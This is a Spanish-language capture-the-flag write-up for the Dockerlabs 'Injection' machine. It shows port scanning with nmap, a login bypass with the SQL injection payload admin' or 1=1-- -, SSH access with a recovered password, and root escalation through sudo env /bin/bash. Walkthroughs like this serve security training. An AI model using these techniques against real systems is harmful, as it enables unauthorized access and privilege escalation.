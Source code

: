 # Máquina Injection

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

--------------
## Explotación

Accedemos a la web y encontramos un **panel de login**. Por el nombre de la máquina, intentamos explotarlo con una **SQL Injection**.

Introduciendo "**admin' or 1=1-- -**" para que siempre sea verdadero, y cualquier cosa en la **password**.

![Pasted image 20240512225902](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4d8121f1-f8ab-4b0a-9fd9-ce0101d1c16c)

Conseguimos bypasearlo exitosamente!

![Pasted image 20240512230123](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/71d8d288-ede1-4bc6-a8c7-2dc74f84110c)

```
KJSDFG789FGSDF78
```

Probamos esta contraseña con el usuario **dylan** en el protocolo **ssh**.

```shell
ssh dylan@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

Vemos que podemos ejecutar **env** como el usuario **root**.
Será tan sencillo como ejecutar:

```shell
sudo /usr/bin/env /bin/bash
```

```shell
whoami
------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!

